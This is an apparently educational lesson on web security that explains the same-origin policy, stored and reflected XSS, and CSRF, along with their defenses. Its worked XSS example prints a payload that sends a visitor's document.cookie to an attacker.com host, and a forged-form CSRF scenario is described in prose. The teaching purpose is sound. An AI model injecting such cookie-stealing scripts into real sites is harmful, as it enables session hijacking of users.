

## Learning Objectives

- Define the same-origin policy and explain why it is the foundational security boundary browsers enforce between websites.
- Trace a concrete stored XSS attack, from injection to execution in a victim's browser, and identify which of this discipline's earlier concepts (CIA triad, injection) it violates.
- Trace a concrete CSRF attack and explain, precisely, why the browser's automatic cookie-attachment behavior is what makes it possible.
- Explain the distinct defenses for XSS (output encoding, Content Security Policy) versus CSRF (anti-CSRF tokens, SameSite cookies), and why a single fix doesn't address both.
- Classify XSS as, structurally, another instance of the data/code-boundary pattern already introduced for SQL injection.

## Context & Motivation

The last two concepts covered memory-safety and injection vulnerabilities in general (SQL injection specifically) and the classic defenses against control-hijacking at the systems level. This concept moves to the web application layer specifically, where two distinct but frequently confused vulnerability classes — **cross-site scripting (XSS)** and **cross-site request forgery (CSRF)** — both exploit a single underlying fact about how browsers work, even though they achieve very different attacker goals and require very different defenses.

That underlying fact is this: a browser automatically attaches a user's cookies (including session-authentication cookies) to every request sent to a given site, *regardless of which page or site actually triggered that request*. This convenience — it's why a user stays logged in while clicking around a site without re-authenticating on every page — is exactly what both XSS and CSRF exploit, in two different ways: XSS gets attacker code to *run* in the victim's browser, in the victim's already-authenticated session, with full access to whatever that session can see; CSRF doesn't need to run any code in the victim's browser at all — it merely needs to get the victim's browser to *send a request* the attacker chose, trusting that the browser will automatically attach the victim's real authentication cookie to it.

## Core Theory

### The same-origin policy: the browser's foundational security boundary

Browsers enforce the **same-origin policy**: JavaScript running on a page loaded from one origin (a specific combination of scheme, domain, and port) cannot, by default, read data from a different origin — a script on `attacker.com` cannot directly read the DOM or cookies of a page open on `bank.com` in another tab. This is the boundary XSS specifically defeats: if an attacker can get *their* script to run *as if it were* legitimately part of `bank.com`'s own page (by injecting it into content `bank.com` itself serves), the same-origin policy provides no protection at all, because the browser correctly treats that script as belonging to `bank.com`'s own origin — the vulnerability is not a same-origin-policy failure, it's a failure upstream of it, in how `bank.com` handled untrusted input before serving it.

### Cross-site scripting (XSS): another instance of the data/code boundary

XSS is structurally the same pattern already introduced for SQL injection, applied to HTML/JavaScript instead of SQL: an application takes untrusted input (a comment, a username, a search query) and includes it in a page's HTML output without properly separating "data the user submitted" from "markup/script the browser will parse and execute." If that input contains `<script>` tags or other executable content, and the application inserts it into the page's HTML *without encoding it*, the browser's HTML parser cannot distinguish "text the application meant to display literally" from "a script tag the attacker snuck in" — exactly the same data/code confusion already seen for SQL, just in a different parser.

**Stored XSS** (the most dangerous variant) occurs when the malicious input is saved server-side (in a comment, a profile field) and then served to *every* subsequent visitor who views that content — turning one successful injection into an attack against every future viewer, not just the original victim. **Reflected XSS** instead requires tricking a specific victim into clicking a crafted link that embeds the malicious script directly in the request (e.g. a search-results page that echoes the search query back into the page unescaped).

The defense is the direct analogue of parameterized queries: **output encoding** — converting characters that are meaningful in HTML (`<`, `>`, `&`, quotes) into their harmless literal representations (`&lt;`, `&gt;`, etc.) before inserting untrusted data into a page, so the browser's parser can never mistake that data for markup or script, no matter what characters it contains. A second, complementary defense, **Content Security Policy (CSP)**, lets a site declare, via an HTTP header, which sources of script are allowed to execute at all — even if an attacker does manage to inject a `<script>` tag, a well-configured CSP can prevent the browser from executing it if it doesn't come from an explicitly allow-listed source.

### Cross-site request forgery (CSRF): abusing automatic cookie attachment, without needing to run any code

CSRF works completely differently, and does not require injecting anything into the victim site's page at all. An attacker hosts a page — on their own, entirely separate site — containing a form or request that targets the victim site's own API (say, a bank's "transfer funds" endpoint), and tricks a victim (already logged into the bank in another tab) into visiting it. When the victim's browser sends that request to the bank, it automatically attaches the victim's real session cookie for the bank's domain — because that is simply how browsers work, regardless of which page initiated the request — and if the bank's server has no way to distinguish "a request the user genuinely intended, from the bank's own page" from "a request an unrelated third-party page silently triggered," the forged transfer succeeds, authenticated as the real, logged-in victim, who may never even realize a request was sent.



The defense here is unrelated to output encoding (CSRF never involves injecting or executing any script at all): an **anti-CSRF token**, a secret, unpredictable value embedded in the bank's own legitimate forms, which the server checks on submission — since an attacker's forged form on a different origin has no way to know or include this value, the forged request is rejected even though the browser still attached a valid session cookie. A second, increasingly standard defense is the **SameSite cookie attribute**, which tells the browser not to attach a given cookie at all to requests originating from a different site, closing off the automatic-cookie-attachment behavior CSRF depends on, directly at the browser level.

## Worked Examples

### Example 1: Tracing a stored XSS attack end to end

```text
1. Attacker submits a blog comment: "Great post! <script>
   fetch('https://attacker.com/steal?cookie=' + document.cookie)
   </script>"
2. Application stores this comment VERBATIM in its database, without
   encoding it.
3. Any future visitor loads the blog post page; the server includes the
   stored comment directly in the page's HTML.
4. The visitor's browser parses the page HTML, encounters the <script>
   tag exactly as if the SITE ITSELF had written it, and executes it —
   the browser has no way to know this script came from an attacker's
   comment rather than the site's own developers.
5. The script runs with FULL access to that visitor's own session on
   the legitimate site (same-origin policy does not protect against
   this — the script IS running in that site's own origin) and sends
   the visitor's own session cookie to the attacker's server.
6. Attacker now has a valid session cookie for every visitor who viewed
   the comment, and can impersonate any of them without needing their
   password at all.
```

### Example 2: Why output encoding would have stopped Example 1

```text
If step 2 had encoded the stored comment before including it in the
page's HTML:

  "Great post! &lt;script&gt;fetch('https://attacker.com/steal?
   cookie=' + document.cookie)&lt;/script&gt;"

The browser's HTML parser sees LITERAL TEXT (the encoded angle brackets
are not interpreted as tag delimiters) — it displays the comment as
plain text, including the visible words "script" and "fetch", exactly
as the attacker typed them, but NEVER executes anything, because no
actual <script> TAG was ever parsed from this encoded text.
```

### Example 3: Why an anti-CSRF token, not output encoding, is the correct fix for the transfer-forgery attack

```text
CSRF attack (from Core Theory) does not involve injecting any script
into bank.com's own pages at all — the malicious content lives entirely
on attacker.com, a completely separate origin. Output encoding on
bank.com's side would do NOTHING to stop this attack, since bank.com's
own pages were never tampered with.

With an anti-CSRF token:
  Legitimate transfer form (served by bank.com itself) includes:
    <input type="hidden" name="csrf_token" value="a1b2c3...(secret,
      unpredictable, tied to the victim's own session)">

  Attacker's forged form on attacker.com has NO WAY to know this value
  (it's generated server-side, per session, and never exposed to other
  origins) — so the forged request either omits it or guesses wrong.

  bank.com's server checks: does the submitted csrf_token match the one
  issued for this session? NO → request rejected, even though the
  browser still attached a technically-valid session cookie.
```

## Common Misconceptions & Pitfalls

- **"XSS and CSRF are the same vulnerability, or interchangeable terms for 'web security bugs.'** They exploit the same underlying browser behavior (automatic cookie attachment / same-origin execution) in structurally different ways, and require entirely different defenses — output encoding and CSP address XSS; anti-CSRF tokens and SameSite cookies address CSRF; applying only one category of defense leaves the other vulnerability class completely open.
- **"The same-origin policy protects against XSS."** XSS defeats the same-origin policy specifically by getting attacker-controlled script to run *as if it legitimately belonged to* the victim site's own origin — the browser is not violating same-origin policy at all; it is correctly executing a script it (reasonably) believes the site itself served.
- **"Escaping user input on the client side (in JavaScript, before sending it to the server) is a sufficient defense against stored XSS."** Client-side validation can always be bypassed by an attacker who sends requests directly (not through the legitimate page's JavaScript at all) — encoding must happen at the point where untrusted data is inserted into HTML output, typically server-side (or via a templating system that encodes by default), not merely as a client-side convenience check.
- **"A CSRF token needs to be kept secret from the legitimate user, like a password."** The token is sent to the legitimate user's own browser (embedded in the legitimate form) and submitted back by them — it only needs to be unpredictable to and unknown by *other, unrelated origins*, not hidden from the user whose own request legitimately includes it.
- **"SameSite cookies have made anti-CSRF tokens obsolete."** While SameSite cookie attributes provide a strong, increasingly default browser-level mitigation, relying on it alone assumes every browser in a user population correctly implements and defaults to it, and defense-in-depth (the same principle from the previous concept) favors combining both mitigations rather than depending on a single layer.

## Summary

Cross-site scripting and cross-site request forgery both exploit the same underlying browser behavior — automatic cookie attachment to same-origin requests — but in structurally different ways requiring entirely different defenses. XSS is another instance of the data/code-boundary pattern already seen for SQL injection: untrusted input inserted into HTML without encoding lets a browser's parser mistake attacker-supplied data for legitimate script, defeated by output encoding and Content Security Policy. CSRF requires no script injection at all — it merely tricks a victim's browser into sending a request the attacker chose to a site where the victim is already authenticated, relying on the browser's automatic cookie attachment, and is defeated by anti-CSRF tokens and the SameSite cookie attribute. Having covered vulnerabilities and defenses at the memory-safety, database, and browser layers, the next concept steps back to the network layer, where firewalls provide an earlier, different kind of defense — controlling which traffic is allowed to reach a system at all, before any application-layer vulnerability could even be reached.

## Documentation Links

- [OWASP Top Ten — Web Application Security Risks](https://owasp.org/www-project-top-ten/) — covers cross-site scripting and related web application vulnerability classes as part of its evidence-based ranking.
- [Stanford CS155 — Computer and Network Security](https://cs155.stanford.edu/) — covers web attacks (XSS, CSRF) and the browser security model in exactly this context.
